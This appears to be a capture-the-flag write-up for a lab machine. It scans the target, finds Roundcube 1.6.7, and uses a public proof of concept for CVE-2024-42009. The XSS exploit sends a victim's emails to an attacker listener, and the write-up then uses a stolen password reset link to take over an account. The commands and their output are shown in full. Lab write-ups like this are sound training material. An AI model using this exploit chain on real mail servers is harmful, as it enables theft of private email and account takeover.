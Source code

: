 ![](https://github.com/user-attachments/assets/8278069b-610a-4c6d-a7b6-101029e255af)

## 1. Recon

### 1.1. Port Scan `nmap`

Quick initial scan to find open ports:

```console
root@kali:~# nmap -sS -p- --min-rate 100000 -Pn 10.10.11.54
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 08:34 +08
Nmap scan report for 10.10.11.54
Host is up (0.013s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds
```

Script and version scan on open ports:

```console
root@kali:~# nmap -Pn -p 22,80 -sCV 10.10.11.54
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 08:34 +08
Nmap scan report for 10.10.11.54
Host is up (0.0054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 33:41:ed:0a:a5:1a:86:d0:cc:2a:a6:2b:8d:8d:b2:ad (ECDSA)
|_  256 04:ad:7e:ba:11:0e:e0:fb:d0:80:d3:24:c2:3e:2c:c5 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
```

## 2. Exploring Roundcube Webmail

### 2.1. Looking around

The web app is at `http://drip.htb/`:

```console
root@kali:~# curl 10.10.11.54
<meta http-equiv="refresh" content="0; url=http://drip.htb/" />
```

_Sign In_ links to `http://mail.drip.htb/`:

![](https://github.com/user-attachments/assets/4ee1c489-f446-4668-b63f-547648e37102)

Which is Roundcube Webmail:

![](https://github.com/user-attachments/assets/56f7f86b-5c0c-4bbb-a5fd-da7e6cb9c0ab)

_Sign Up_ links to account registration page:

![](https://github.com/user-attachments/assets/f36f0c12-8848-4a6e-b2bb-c50bee487843)

Register account and sign in, version is `1.6.7`:

![](https://github.com/user-attachments/assets/4825f5d1-8351-43b9-9d7d-641949bb3c52)

Note the `drip.darkcorp.htb` domain from _Headers_:

![](https://github.com/user-attachments/assets/367fb443-b91e-457f-87c8-7b694c22eac0)

### 2.2. CVE-2024-42009

[CVE-2024-42009](https://github.com/advisories/GHSA-j43g-prf4-578j): A Cross-Site Scripting vulnerability in Roundcube through 1.5.7 and 1.6.x through 1.6.7 allows a remote attacker to steal and send emails of a victim via a crafted e-mail message that abuses a Desanitization issue in message_body() in program/actions/mail/show.php.

Intercept the _Contact Us_ request via Burp Suite:

![](https://github.com/user-attachments/assets/4da2f0de-3c74-463e-9753-96da2e6c70c3)

![](https://github.com/user-attachments/assets/acfb7fba-0df8-4e14-91bb-583814e72f60)

Change `recipient=support%40drip.htb` into `recipient=test%40drip.htb` and forward the edited request to hijack the email

An email `bcase@drip.htb` is discovered that can be used for the XSS exploit:

![](https://github.com/user-attachments/assets/82b2372e-c795-4173-8b39-b7a8024f6d0c)

Prepare [CVE-2024-42009-PoC](https://github.com/DaniTheHack3r/CVE-2024-42009-PoC):

```console
root@kali:~# git clone https://github.com/DaniTheHack3r/CVE-2024-42009-PoC
Cloning into 'CVE-2024-42009-PoC'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 9 (delta 2), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 8.00 KiB | 8.00 MiB/s, done.
Resolving deltas: 100% (2/2), done.

root@kali:~# python3 -m venv CVE-2024-42009-PoC

root@kali:~# cd CVE-2024-42009-PoC/

root@kali:~/CVE-2024-42009-PoC# bin/pip3 install -r requirements.txt
⋮
⋮
Successfully installed Mako-1.3.10 MarkupSafe-3.0.2 PyNaCl-1.5.0 PySocks-1.7.1 Pygments-2.19.1 ROPGadget-7.6 bcrypt-4.3.0 beautifulsoup4-4.13.4 capstone-6.0.0a4 certifi-2025.4.26 cffi-1.17.1 charset-normalizer-3.4.2 colored-traceback-0.4.2 cryptography-45.0.2 idna-3.10 intervaltree-3.1.0 packaging-25.0 paramiko-3.5.1 plumbum-1.9.0 psutil-7.0.0 pwntools-4.14.1 pycparser-2.22 pyelftools-0.32 pyserial-3.5 python-dateutil-2.9.0.post0 requests-2.32.3 rpyc-6.0.2 six-1.17.0 sortedcontainers-2.4.0 soupsieve-2.7 typing_extensions-4.13.2 unicorn-2.1.2 unix-ar-0.2.1 urllib3-2.4.0 zstandard-0.23.0
```

Execute the exploit:

```console
root@kali:~/CVE-2024-42009-PoC# bin/python3 exploit.py -u http://drip.htb/contact -r bcase@drip.htb -l 10.10.14.3 -p 4444
[*] Crafting payload for http://drip.htb/contact with recipient bcase@drip.htb
[*] Sending payload to http://drip.htb/contact with recipient bcase@drip.htb
[*] Starting HTTP server on port 4444
[+] HTTP server listening on port 4444
[*] Waiting for emails... (Press Ctrl+C to stop manually)
[*] POST request to: /?emails=found
[+] Received 3 emails!
```

Receive information:

```console
------------------------------------------------------------
📧 EMAIL UID: 1
------------------------------------------------------------
From: no-reply@drip.htb
Subject: Welcome to DripMail

Message:
Hi bcase,
Welcome to DripMail! We're excited to provide you with convenient email solutions! If you need help, please reach out to us at
support@drip.htb
.
------------------------------------------------------------


------------------------------------------------------------
📧 EMAIL UID: 2
------------------------------------------------------------
From: ebelford
Subject: Analytics Dashboard

Message:
Hey Bryce,
The Analytics dashboard is now live. While it's still in development and limited in functionality, it should provide a good starting point for gathering metadata on the users currently using our service.
You can access the dashboard at dev-a3f1-01.drip.htb. Please note that you'll need to reset your password before logging in.
If you encounter any issues or have feedback, let me know so I can address them promptly.
Thanks
------------------------------------------------------------

[+] Email exfiltration complete! Shutting down server...
[*] Shutting down server...
[+] Server stopped successfully!
```

### 2.3. Getting access to `dev-a3f1-01.drip.htb`

![](https://github.com/user-attachments/assets/706d9d12-dd8e-4988-9b62-48e3b912e8bb)

![](https://github.com/user-attachments/assets/91727468-5214-43a8-ba57-d31ada02e822)

![](https://github.com/user-attachments/assets/4bc048cf-0899-46ac-97c9-f7675e4b510c)

Run the CVE-2024-42009 exploit again to receive the password reset link:

```console
------------------------------------------------------------
📧 EMAIL UID: 3
------------------------------------------------------------
From: no-reply@drip.htb
Subject: Reset token

Message:
Your reset token has generated.  Please reset your password within the next 5 minutes.
You may reset your password here:
http://dev-a3f1-01.drip.htb/reset/ImJjYXNlQGRyaXAuaHRiIg.aMT8tg.jgx5a6ktRvXvrWoyf2rimlViZqE
------------------------------------------------------------
```

![](https://github.com/user-attachments/assets/2a17c94a-5c16-4cd1-97b0-3d2be55369fb)

![](https://github.com/user-attachments/assets/55d9d9f5-86fb-49b9-8272-beb6f2255af8)
